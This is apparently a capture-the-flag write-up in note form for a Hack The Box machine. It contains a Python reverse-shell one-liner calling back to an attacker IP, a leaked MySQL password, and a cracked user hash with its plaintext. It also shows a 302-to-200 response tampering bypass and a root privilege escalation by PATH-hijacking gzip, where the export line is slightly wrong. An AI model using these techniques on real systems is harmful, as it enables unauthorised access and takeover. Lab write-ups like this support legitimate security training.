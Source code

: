 start with nmap

80
22



***

http 80

site uses php.

/index.php
/js
/accounts.php
/config.php
/download.php
/login.php

login.php --> tried sql bypass

***

status.php --> two admins, server is mysql

***

send req to /account.php and intercept response.

make response from 302 Found to 200 Ok

we get /account.php now we can create user.

create new user.

log in as new user.

file upload fun found

we found password for mysql: `mySQL_p@ssw0rd!:)`

user found :

m4lwhere
htbadmin
akshay

***

analysing download.php

it log all download file attempt to /var/www/file_access.log .

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.60",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

m4lwhere : $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.  : ilovecody112235!

***

privs

we can run /opt/scripts/access_backup.sh as root.

```bash
#!/bin/bash                                                                                                    [28/66]
                                                                                                                      
# We always make sure to store logs, we take security SERIOUSLY here
                                                                                                                      
# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time
                                                           
gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz


```

it uses gzip without full path specification

add /tmp/gzip

echo "/bin/bash" > /tmp/gzip
chmod +x /tmp/gzip
export PATH=/tmp/gzip:$PATH

sudo -u root ./access_backup.sh